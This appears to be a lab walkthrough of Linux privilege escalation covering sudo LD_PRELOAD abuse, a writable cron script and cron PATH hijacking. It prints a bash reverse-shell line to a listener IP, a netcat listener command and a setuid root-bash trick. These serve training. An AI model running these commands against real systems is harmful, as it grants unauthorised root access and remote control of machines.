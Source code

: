 

## Sudo - Environment Variables

> create a shared object using the code located at /home/user/tools/sudo/preload.c
```
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```
> take a program name from the list of `sudo -l` (here we are taking nmap)
```
sudo LD_PRELOAD=/tmp/preload.so nmap
```

> after running the above command we shall get a root shell



## Cron Jobs - File Permissions

> first see the crontab using the following command
```
cat /etc/crontab
```
> there are two cronjob scheduled to run every minute. One is overwrite.sh and the other is compress.sh

> we will first look into the overwrite.sh and we can see that this one is writable.

> we will modify the file and put the below code into /usr/local/bin/overwrite.sh (put your kali linux vpn ip)
```
#!/bin/bash
bash -i >& /dev/tcp/10.17.48.110/4444 0>&1
```
> after that we have to start a netcat listener into our local machine.
```
nc -lvnp 4444
```
> now wait for some time and when the cronjob will run we shall get a root shell over our netcat listener.



## Cron Jobs - PATH Environment Variable

> as we have seen that there is a path variable in the crontab. we will use this to exploit.

> now we will create a bash script named `overwrite.sh` into the first location of the path variable. the file should contain the following content
```
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```
> now after waiting for two minutes we should find a file called `rootbash` into the `/tmp/` folder.
